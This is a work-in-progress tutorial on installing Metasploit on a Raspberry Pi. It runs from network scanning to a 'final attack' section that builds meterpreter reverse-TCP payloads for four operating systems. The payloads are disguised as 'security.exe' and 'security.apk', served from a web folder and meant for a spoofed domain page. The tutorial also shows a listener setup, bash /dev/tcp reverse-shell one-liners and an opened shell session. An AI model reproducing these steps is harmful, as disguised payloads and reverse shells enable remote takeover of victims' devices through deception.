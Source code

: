 # Metasploit

... work in progress ...

## Objective

The aim of this tutorial is to install Metasploit on Raspberry PI and to provide a tiny introduction.

## Install needed and/or optional packages

Install (_or ensure they are installed_) following packages.

```shell
# update system (optional)
$ sudo apt update -y && sudo apt upgrade -y

# install optional packages (optional)
$ sudo apt install -y vim tree

# install needed packages
$ sudo apt install -y curl nmap
```

## Preparation

For the Metasploit (_first steps_) section and the Metaslpoit/Msfvenom (_final attack_) sections, you can create already some folders.

```shell
# create some directories
$ mkdir /var/www/html/{images,styles,scripts,data}
```

## Install and start Metasploit

```shell
# download latest install script
$ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

# change file permissions
$ chmod u+x msfinstall

# start installation
$ sudo ./msfinstall

# start msfconsole
$ msfconsole
```

Start the initial msfconsole (_incl. Metasploit version_), this will also setup your database.

```
Would you like to use and setup a new database (recommended)? y
Initial MSF web service account username? [pi]:
Initial MSF web service account password? (Leave blank for random password):
```

Please store this credentials!!!

## Metasploit (_first steps_)

```shell
# add workspace (and switch)
msf6 > workspace -a first-steps

# executes nmap scan
msf6 > db_nmap 192.168.0.1/24

# list all hosts in the database
msf6 > hosts

# list all services in the database
msf6 > services

# exit msf console
msf6 > exit

# search for available http auxiliaries (optional)
msf6 > search auxiliary name:http

# enable directory scanner
msf6 > use auxiliary/scanner/http/dir_scanner

# show options
msf6 auxiliary(scanner/http/dir_scanner) > options

# set RHOST value
msf6 auxiliary(scanner/http/dir_scanner) > set RHOSTS 192.168.0.1

# run scanner
msf6 auxiliary(scanner/http/dir_scanner) > run
...
[+] Found http://192.168.0.1:80/data/ 404 (192.168.0.1)
[+] Found http://192.168.0.1:80/images/ 404 (192.168.0.1)
[+] Found http://192.168.0.1:80/styles/ 404 (192.168.0.1)
...

# exit msfconsole
msf6 auxiliary(scanner/http/dir_scanner) > quit
```

## Metaslpoit/Msfvenom (_final attack_)

### Generate some exploits

Okay, let's make the hands dirty.

```shell
# start msfconsole (without banner)
$ msfconsole -L

# search for reverse tcp
msf6 > search meterpreter_reverse_tcp

# create payload for Windows
msf6 > msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe > /var/www/html/data/security.exe

# create payload for Linux
msf6 > msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f elf > /var/www/html/data/security.elf

# create payload for macOS
msf6 > msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f macho > /var/www/html/data/security.dmg

# create payload for Android
msf6 > msfvenom -p android/meterpreter_reverse_tcp -o /var/www/html/data/security.apk LHOST=192.168.0.1 LPORT=4444

# show directory structure (optional)
msf6 > tree /var/www/html/data/
├── security.apk
├── security.dmg
├── security.elf
└── security.exe
```

### Prepare the spoofed domain page

...

```html
# will follow
```

...

```css
# will follow
```

...

```javascript
# will follow
```

### Start connection handler

...

```shell
# use multi/handler
msf6 > use exploit/multi/handler

# show informations (optional)
msf6 exploit(multi/handler) > info

# show options (optional)
msf6 exploit(multi/handler) > options

# set lhost
msf6 exploit(multi/handler) > set LHOST 192.168.0.1

# start multi/handler
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.0.1:4444
```

...

### Wait or test for connection

You can now wait or just test it yourself (_without payload, of course_).

With a 2nd tty you can check if port 4444 is listen on Raspberry PI.

```shell
pi@raspberrypi:~ $ ss -tl | grep 4444
LISTEN   0        256          192.168.0.1:4444                  0.0.0.0:* 
```

On other own device(s) you can establish a reverse shell.

```shell
┌──[lupin@centos]::[~]
└─ % /bin/bash -i >& /dev/tcp/192.168.0.1/4444 0>&1

┌──[lupin@macOS]::[~]
└─ % /bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.0.1/4444 0>&1"
```

Yes, 2 sessions were opened ... 

```shell
[*] Command shell session 2 opened (192.168.0.1:4444 -> 192.168.0.140:54247) at 2021-04-04 17:54:08 +0100
ifconfig en0
en0: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	...
	inet 192.168.0.140 netmask 0xffffff00 broadcast 192.168.0.255
	...
bash-3.2$ exit
```

[Go Back](./README.md)
